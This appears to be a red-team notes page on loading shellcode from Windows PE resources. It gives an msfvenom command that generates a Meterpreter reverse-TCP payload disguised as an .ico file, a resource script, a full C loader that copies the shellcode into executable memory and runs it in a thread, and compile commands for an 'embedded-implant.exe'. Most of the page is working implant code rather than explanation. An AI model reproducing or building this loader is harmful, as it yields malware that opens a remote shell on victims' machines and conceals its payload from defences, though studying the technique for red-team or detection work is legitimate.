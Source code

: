# FindResource

Determines the location of a resource with the specified type and name in the specified module.

(LoadResource) Retrieves a handle that can be used to obtain a pointer to the first byte of the specified resource in memory.

(SizeofResource)  Retrieves the size, in bytes, of the specified resource.

```
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<IP> exitfunc=thread -f raw -o shellcode.ico
```

```c
#define SC_ICON 2583
SC_ICON RCDATA "shellcode.ico"
```

```c
#include <windows.h>

#define SC_ICON 2583
int main() {
    // Find shellcode data
    HRSRC handle_resource = FindResource(NULL, MAKEINTRESOURCE(SC_ICON), RT_RCDATA);

    // Load shellcode
    HGLOBAL handle_global = LoadResource(NULL, handle_resource);

    // Get pointer to shellcode
    LPVOID memory_pointer = LockResource(handle_global);

    // Length of shellcode
    DWORD length = SizeofResource(NULL, handle_resource);

    // Allocate the memory
    LPVOID execute_memory = VirtualAlloc(NULL, length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    RtlMoveMemory(execute_memory, memory_pointer, length);

    DWORD old_protection = 0;
    BOOL returned_virtual_protection = VirtualProtect(execute_memory, length, PAGE_EXECUTE_READ, &old_protection);

    if(returned_virtual_protection != NULL) {
        HANDLE thread_handle = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)execute_memory, NULL, NULL, NULL);

        WaitForSingleObject(thread_handle, INFINITE);
    }
}
```

```
$ x86_64-w64-mingw32-windres resource.rc resource.o

$ x86_64-w64-mingw32-gcc -o embedded-implant.exe resource.o implant.c
```

```
C:\> rc resource.rc

C:\> cvtres /machine:x64 /out:resource.o resource.res

C:\> cl.exe /nologo /0x /W0 /GS- /DNDEBUG /Tc:implant.c /link /out:embedded-implant.exe /subsystem:console /machine:x64 resource.o
```

---
## References

- [[01 - Command Line/D - Compilers/Windows/C|Compilers: C]]

- [Red Team Notes: Loading and Executing Shellcode From PE Resources](https://www.ired.team/offensive-security/code-injection-process-injection/loading-and-executing-shellcode-from-portable-executable-resources)

### MalAPI

- [MalAPI: FindResourceA](https://malapi.io/winapi/FindResourceA)

- [MalAPI: FindResourceExA](https://malapi.io/winapi/FindResourceExA)

- [MalAPI: SizeOfResource](https://malapi.io/winapi/SizeOfResource)

- [MalAPI: LockResource](https://malapi.io/winapi/LockResource)